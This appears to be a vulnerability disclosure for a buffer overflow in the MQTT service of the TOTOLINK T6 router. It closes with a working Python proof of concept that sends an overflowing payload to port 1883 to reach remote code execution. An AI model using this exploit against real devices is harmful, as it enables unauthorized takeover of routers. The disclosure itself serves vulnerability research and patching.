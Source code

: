 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveCloudCheckStatus`. The `s` buffer is 64 bytes, and the `sprintf` doesn't check for the length of input.

![](8/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](8/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0x40 - 9 + 20) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s",
        "version":"123"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", mqtt_data)```




